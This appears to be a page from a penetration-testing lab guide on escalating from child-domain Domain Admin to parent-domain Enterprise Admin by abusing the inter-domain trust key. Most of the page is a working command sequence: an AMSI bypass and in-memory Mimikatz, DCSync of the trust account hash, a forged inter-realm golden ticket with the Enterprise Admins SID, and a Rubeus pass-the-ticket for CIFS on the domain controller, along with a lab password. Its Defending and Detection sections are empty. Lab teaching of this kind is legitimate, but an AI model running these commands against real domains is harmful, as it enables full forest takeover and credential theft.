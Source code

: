 # Trust key

## Attacking

### How it works

Once you gain Domain Admin privileges within the child domain its possible to get Enterprise Admin in the parent domain by generating a golden ticket in the child domain with the SID of the Enterprise Admin group.

### Tools



### Executing the attack

The attack is executed from the perspective of already gaining domain admin privileges. This is done in the unconstrained delegation section:

{% content-ref url="../delegation-attacks/unconstrained-delegation/" %}
[unconstrained-delegation](../delegation-attacks/unconstrained-delegation/)
{% endcontent-ref %}

1. For easy execution, login on `WS01` as the `Administrator` user with the password `Welcome01!`.
2. Start PowerShell as Administrator and load a amsi bypass and MimiKatz into memory.

![](<../../../.gitbook/assets/image (71).png>)

3\. DCsync the trust key with MimiKatz:

```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:amsterdam\bank$"'
```

![](<../../../.gitbook/assets/image (9).png>)

4\. Retrieve the SID of the enterprise Admins group, using PowerView:

```
Get-DomainGroup "Enterprise Admins" -Domain bank.local | Select-Object samaccountname, objectsid
```

![](<../../../.gitbook/assets/image (76).png>)

5\. Retrieve the domain SID from the child domain, using PowerView:

```
Get-DomainSid
```

![](<../../../.gitbook/assets/image (64) (1).png>)

6\. Create a TGT for the krbtgt user and save it to disk with MimiKatz:

```
Invoke-Mimikatz -Command '"Kerberos::golden /user:Administrator /domain:<FQDN CHILD DOMAIN> /sid:<SID CHILD DOMAIN> /sids:<SIDS OF ENTERPRISE ADMIN GROUP OF TARGET> /rc4:<TRUST KEY HASH> /service:krbtgt /target:<FQDN PARENT DOMAIN> /ticket:<PATH TO SAVE TICKET>"'
```

![](<../../../.gitbook/assets/image (72).png>)

7\. Create a TGS for the CIFS service with Rubeus.exe using the created TGT:

```
.\Rubeus.exe asktgs /ticket:trustkey.kirbi /service:CIFS/dc01.bank.local /dc:dc01.bank.local /ptt
```

![](<../../../.gitbook/assets/image (28).png>)

List the tickets:

![](<../../../.gitbook/assets/image (13).png>)

## Defending

### Detection



## References


